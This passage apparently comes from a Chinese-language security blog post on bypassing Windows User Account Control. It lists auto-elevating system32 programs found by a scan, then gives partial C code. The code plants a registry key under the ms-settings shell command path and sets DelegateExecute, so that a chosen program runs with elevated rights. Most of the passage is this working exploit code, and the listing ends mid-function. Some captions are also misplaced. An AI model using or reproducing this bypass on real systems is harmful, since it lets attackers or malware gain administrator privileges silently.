 ```
c:\windows\system32\SystemSettingsAdminFlows.exe
c:\windows\system32\SystemSettingsRemoveDevice.exe
c:\windows\system32\Taskmgr.exe
c:\windows\system32\tcmsetup.exe
c:\windows\system32\TpmInit.exe
c:\windows\system32\WindowsUpdateElevatedInstaller.exe
c:\windows\system32\WSReset.exe
c:\windows\system32\wusa.exe
```

### 0x02-1 寻找 autoElevate 为 true 的程序

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9WvmV5u9C7Fon5xj2ib0utmerI23pBQNKDBQmPTxibwulVDIybErm4Xic2DQ/640?wx_fmt=png)

这里写了个 py 脚本遍历 c:\windows\system32 \ 目录下的所有 exe 文件，寻找 autoElevate 为 true 的 exe 程序

```
c:\windows\system32\bthudtask.exe                       ok
c:\windows\system32\changepk.exe
c:\windows\system32\ComputerDefaults.exe                ok      1
c:\windows\system32\dccw.exe                            ok      1
c:\windows\system32\dcomcnfg.exe                        ok      1
c:\windows\system32\DeviceEject.exe                     ok
c:\windows\system32\DeviceProperties.exe                ok
c:\windows\system32\djoin.exe                           ok
c:\windows\system32\easinvoker.exe                      ok
c:\windows\system32\EASPolicyManagerBrokerHost.exe      ok
c:\windows\system32\eudcedit.exe                        ok      1
c:\windows\system32\eventvwr.exe                        ok      1
c:\windows\system32\fodhelper.exe                       ok      1
c:\windows\system32\fsquirt.exe                         ok      1
c:\windows\system32\FXSUNATD.exe                        ok
c:\windows\system32\immersivetpmvscmgrsvr.exe           ok
c:\windows\system32\iscsicli.exe                        ok      1
c:\windows\system32\iscsicpl.exe                        ok      1
```

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9WvHzEzRmWotQrssFYzJCnnIJTmCys1nNicfqiaGT30wJdCVuCicLicFwct4Q/640?wx_fmt=png)

结果如下：

```
#include <stdio.h>
#include <Windows.h>

int wmain(int argc, wchar_t* argv[]) {
if (argc != 2) {
        wprintf(L"Usage: %s <filePath>\n", argv[0]);
        wprintf(L"       %s cmd.exe\n", argv[0]);
exit(1);
    }

    LPWSTR filePath = argv[1];

    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFOA si = { 0 };
    HKEY hKey;

    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_HIDE;
    RegCreateKeyW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings\\Shell\\open\\command", &hKey);       // 创建注册表项
    RegSetValueExW(hKey, L"", 0, REG_SZ, (LPBYTE)filePath, lstrlenW(filePath));                             // 赋值，执行的exe路径
    RegSetValueExW(hKey, L"DelegateExecute", 0, REG_SZ, (LPBYTE)"", sizeof(""));
```